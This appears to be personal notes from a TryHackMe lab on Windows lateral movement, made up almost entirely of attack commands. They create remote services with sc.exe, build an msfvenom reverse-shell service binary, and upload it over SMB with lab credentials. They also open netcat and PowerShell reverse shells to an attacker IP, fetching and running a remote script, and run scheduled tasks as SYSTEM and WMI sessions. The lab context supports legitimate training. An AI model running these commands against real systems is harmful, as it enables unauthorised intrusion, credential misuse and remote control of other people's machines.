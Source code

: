 
Remotely Creating Services Using sc

    Ports:
        135/TCP, 49152-65535/TCP (DCE/RPC)
        445/TCP (RPC over SMB Named Pipes)
        139/TCP (RPC over SMB Named Pipes)
    Required Group Memberships: Administrators


create service
sc.exe \\TARGET create THMservice binPath= "net user t1_leonard.summers  Pass123" start= auto
sc.exe \\TARGET start THMservice


remove service
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe

smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever

overcome new token generate when runas 
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.67.155 4443"


run rev shell using powershell
sc.exe \\thmiis.za.tryhackme.com create THMservice-3243 binPath= "cmd.exe /c powershell -ep bypass iex(New-Object Net.Webclient).DownloadString('http://10.50.67.155/Invoke-PowerShellTcp.ps1')" start= auto

sc.exe \\thmiis.za.tryhackme.com start THMservice-3243



# Creating Scheduled Tasks Remotely

schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1" 
schtasks /S TARGET /TN "THMtask1" /DELETE /F



# Moving Laterally Using WMI 

WMI session using either of the following protocols:

    DCOM: RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
    Wsman: WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).


```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

```
